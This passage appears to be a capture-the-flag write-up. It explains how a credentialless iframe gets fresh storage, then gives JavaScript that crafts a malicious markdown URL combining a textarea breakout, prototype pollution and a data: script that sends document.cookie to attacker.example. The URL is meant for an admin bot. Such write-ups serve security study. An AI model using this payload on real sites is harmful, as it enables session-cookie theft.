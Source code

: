 > Those contexts do not have access to their network, cookies and storage data associated with their origin. Instead, **they use new ones**, local to the top-level document lifetime.

Source: https://developer.mozilla.org/en-US/docs/Web/API/HTMLIFrameElement/credentialless
:::

I tested the behavior in Chrome:
![](./img/iframe-01.png)

In the credentialless iframe `ifr2`, `localStorage.getItem("test")` is `null`.

Therefore, by adding the `credentialless` attribute to the iframe, the attack becomes successful!

```javascript
const CONNECTBACK_URL = "https://attacker.example";

const markdown = `
</textarea>
<iframe name=currentScript src="/?__proto__[tagName]=SCRIPT&__proto__[src]=data:,location='${CONNECTBACK_URL}/'%2bdocument.cookie//" credentialless></iframe>
<link rel=stylesheet href=/0>
<link rel=stylesheet href=/1>
<link rel=stylesheet href=/2>
<link rel=stylesheet href=/3>
<link rel=stylesheet href=/4>
<link rel=stylesheet href=/5>
<link rel=stylesheet href=/6>
<textarea>
`.trim();

const url = `http://alpaca-mark:3000?${new URLSearchParams({ markdown })}`;
console.log(url);
// Report this URL to the admin bot.
```
